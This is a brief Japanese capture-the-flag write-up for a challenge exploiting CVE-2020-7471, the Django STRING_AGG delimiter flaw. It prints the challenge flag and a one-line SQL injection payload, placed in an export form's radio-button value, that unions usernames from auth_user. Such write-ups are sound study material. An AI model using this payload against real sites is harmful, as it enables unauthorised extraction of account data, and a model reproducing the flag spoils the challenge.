 ## 7471
このサイトの管理者アカウントのユーザ名がFlagです

## 配布物
なし

## Flag
pgctf{cocoro_ga_pyonpyon}

## Writeup
タイトルにもなっているCVE-2020-7471のSTRING_AGGの脆弱性を使う
エクスポート機能のCSV, TSVのラジオボタンのvalueをそのままSTRING_AGGのdelimiterに使用しているのでここからSQL Injectionする

`<input type="radio" name="delimiter" value="," checked>`のvalueを
```
,') as author from books_book union select username from auth_user--
```
に書き換えてダウンロード
